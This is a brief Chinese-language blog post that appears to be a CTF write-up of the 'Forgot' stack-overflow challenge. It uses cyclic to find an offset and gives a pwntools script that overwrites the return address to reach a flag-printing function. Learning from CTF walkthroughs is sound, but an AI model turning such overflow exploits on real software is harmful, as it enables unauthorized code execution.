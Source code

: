```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      一道简单的栈溢出Forgot   # 标题
subtitle:                           #副标题
date:       2019-08-01              # 时间
author:     F0RG3T                  # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - PWN
---
```


## 一道简单的栈溢出Forgot

2019.08.01 下午 5 点，一天烧脑的工作后，打开 ctf-wiki，开始二进制之路。

打开 ida，看到了 cat ./flag

![1](img/pwn/2019-08-01/1.png)

根据以前对栈溢出的了解，存在字符串写入，修改函数返回地址于特定地址，完成 pwn  
遂开始了漫长的无头绪乱撞  

查阅了很多资料，甚至搜到了原题 wp，运用了 cyclic 技巧直接得到了偏移量...

![2](img/pwn/2019-08-01/2.png)

编写 exp

```py
from pwn import *

p = process('forgot')

p.recv()
payload = 'A'*63 + p32(0x080486cc)

p.sendline(payload)
p.interactive()

```

得到结果

![3](img/pwn/2019-08-01/3.png)


困死了，明天再写原理